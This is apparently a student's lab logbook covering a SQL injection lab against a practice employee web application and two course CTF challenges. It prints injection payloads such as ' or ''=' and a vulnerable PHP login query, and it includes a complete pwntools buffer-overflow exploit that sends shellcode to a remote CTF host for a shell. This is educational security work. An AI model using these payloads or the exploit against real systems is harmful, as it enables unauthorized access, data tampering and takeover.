# Logbook 8


## Get Familiar with SQL Statements

After the proper setup, we obtained the following output:


In another terminal we opened sql as shown downwards:


# Task 1

First we got all credentials by doing a "SELECT * from credentials;"
We did a "SELECT * from credential where NAME ='Alice'" to get Alice info;



# Task 2.1
We logged in into the web application as the administrator, so we could be able to see the information off all employees.


The output obtained was as follows:


# Task 2.2
We repeated the previous task from the command line and got the following output:




To do this we needed to pass admin'#, which are special characters, so we used their respective encoding (for ' we used %27 and # we used %23);

# Task 2.3
We gave the following input and tried running two sql statements in this attack. The output was:


Why this happened? 
Well, we couldn't use both statements because of multiquery, which checks for more than one statement separated by ';' and then returns the provided error.


# Task 3.1
We decided to modify Alice's salary. To do so we went to the edit profile tab and made the following submission:


The result in the mysql terminal was:



# Task 3.2
Now we changed the bosse's salary, giving the following input:


The final output was as follows:


# Task 3.3

The objective in this task was to change the password of the user 'Boby'.
First we had to turn the desired password ('ola') in to SHA 1 encoding.


Now we got into the boby account using its user and a new password defined by us.



# CFT 8

## Challenge 1

---

When we enter `http://ctf-sp.dcc.fc.up.pt:5003/`, we are greated with this page:



Then we tried the usual SQL injection input:

```
username: " or ""="
password: " or ""="
```

But it didn't work. So we took a look at the source code.

<details><summary>index.php</summary>
    <p>

    <?php
        ob_start();
        session_start();
        include "config.php";
    ?>
    
    <?
       // error_reporting(E_ALL);
       // ini_set("display_errors", 1);
    ?>
    
    <html lang = "en">
    
       <head>
          <title>EasyVault</title>
          <link href = "css/custom.css" rel = "stylesheet">
          <!-- JavaScript Bundle with Popper -->
          <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.bundle.min.js" integrity="sha384-ka7Sk0Gln4gmtz2MlQnikT1wXgYsOg+OMhuP+IlRH9sENBO0LRn5q+8nbTov4+1p" crossorigin="anonymous"></script>
    
    
          <style>
            
          </style>
    
       </head>
    
       <body>
    
          <h2>Unlock the vault</h2> 
          <div class = "container form-signin">
             
             <?php
                if (!empty($_POST)) {
    
                   require_once 'config.php';
    
                   $username = $_POST['username'];
                   $password = $_POST['password'];
                   
                   $query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
                                         
                   if ($result = $conn->query($query)) {
                                      
                      while ($data = $result->fetchArray(SQLITE3_ASSOC)) {
                        $_SESSION['username'] = $data['username'];
               
                        echo "<p>You have been logged in as {$_SESSION['username']}</p><code>";
                        include "/flag.txt";
                        echo "</code>";
    
                     }
                   } else {            
                       // falhou o login
                       echo "<p>Invalid username or password <a href=\"index.php\">Tente novamente</a></p>";
                   }
                }
             ?>
          </div> <!-- /container -->
          
          <div class = "container">
          
             <form class = "form-signin" role = "form" style="text-align:center"
                action = "<?php echo htmlspecialchars($_SERVER['PHP_SELF']); 
                ?>" method = "post">
                <h4 class = "form-signin-heading">Login</h4>
                <input type = "text" class = "form-control" 
                   name = "username" placeholder = "username" 
                   required autofocus></br>
                <input type = "password" class = "form-control"
                   name = "password" placeholder = "password" required></br>
                <button class = "btn btn-lg btn-primary btn-block" type = "submit" 
                   name = "login">Login</button>
             </form>
                            <div class="footer">
             Click here to clean the <a href = "logout.php" tite = "Logout">session.
             </div>
             
          </div> 
    
       </body>
    </html>
</p>
</details>

The source code is vulnerable in this line:

```
$query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
```


Then we tried changing the input to this:


```
username: ' or ''='
password: ' or ''='
```

And it worked!




### flag{dfedf24e44e71e0d4fb0c37ce89fdd75}

## Challenge 2

---


We inspected the main.c file and found the following code:

<details><summary>main.c</summary>
<p>

    #include <stdio.h>
    #include <stdlib.h>
    
    int main() {
    char buffer[100];
    
        printf("Try to control this program.\n");
        printf("Your buffer is %p.\n", buffer);
        printf("Give me your input:\n");
        fflush(stdout);
       
        gets(buffer);
        
        return 0;
    }

</p>
</details>


### Program Analysis
We have a BOF vulnerability in gets() function, where we can read more than 100 bits to a buffer that only takes 100 bits, therefore causing a crash, and a possible exploitation.


### Executing the binary

By executing the binary given, we see that we get a base stack address leak and we will work around that to defeat the address randomization, therefore bypassing the PIE protection.




### Find the offset between the buffer and EIP
We will now see how many characters we need to write from the base address to start overwritting the instruction pointer.
To calculate this we used GDB pattern create tool to find this offset.
To verify if GDB EIP offset was correct we used radare2 wop0, and found that GDB EIP offset was off by 1. Being 108 bits the correct offset.





### The exploit

We see that the distance between the base address and the EIP is 108.

Given that we have the leaked stack base address, we will insert the shellcode, crafted using python pwn tools package, then overwrite the buffer until we get to EIP and then overwrite EIP with the leaked base address, therefore redirecting our code to the shellcode, that is in the leaked stack base address.


<details><summary>script.py</summary>
<p>

    from pwn import *
    import re
    
    from pwnlib.adb.adb import shell
    
    #p = process("./program")
    
    e = context.binary = ELF("./program")
    p = remote("ctf-sp.dcc.fc.up.pt",4001)
    
    #gdb.attach(p.pid)
    
    shellcode = asm(shellcraft.sh())
    
    p.recvuntil("buffer is ")
    
    stack_base = int(p.recv(10),16)
    
    payload = asm(shellcraft.sh())
    
    payload = payload.ljust(108,b'A')
    
    payload += p32(stack_base)
    
    p.sendlineafter("input:",payload)
    p.interactive()


</p>
</details>




### flag{9d880204187ce51a3a20378c78136b66}


o que é o ts token elg token 
precisam de ser usados os dois juntos? se sim porque?